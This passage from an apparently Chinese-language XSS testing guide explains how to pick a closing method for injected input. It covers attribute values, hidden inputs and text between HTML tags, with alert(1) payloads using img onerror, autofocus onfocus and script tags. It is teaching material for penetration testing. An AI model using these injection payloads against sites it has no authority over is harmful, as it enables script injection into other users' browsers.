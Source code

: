 # 测试流程

## 01.F12查看数据输出点选择闭合方式

### 输出在属性里

例如输出的位置位于value属性中：

```js
<input value="[输出]" type=text>
```

我们可以选择直接闭合标签：

```js
"><img src=x onerror=alert(1);>

// 输出后如下:
<input value=""><img src=x onerror=alert(1);>" type=text>
```

如果 `< >` 被过滤的话可以换成选择使用事件来闭合属性，并将后面的引号注释掉或闭合：

```js
" autofocus onfocus=alert(1)//
" autofocus onfocus=alert(1) "

// 输出后如下:
<input value="" autofocus onfocus=alert(1)//" type=text>
```

还有一些特殊的场景，如：

```js
<input type="hidden" value="[输出]" />
<input value="[输出点]" type="hidden"/>
```

这里只能把input标签闭合，然后直接执行脚本，否则会因为type为hidden导致无法执行脚本。

### 输出在HTML标签之间

例如输出的位置如下：

```js
<div id="body">[输出]</div>
```

直接提交 `<script>alert(1)</script>` 即可触发XSS，但是当标签是不能执行脚本的标签时，如下面这几个：

- `<title></title>`
- `<textarea></textarea>`
- `<xmp></xmp>`
- `<iframe></iframe>`

那么就得先把那个标签闭合，然后在注入XSS语句，例如：
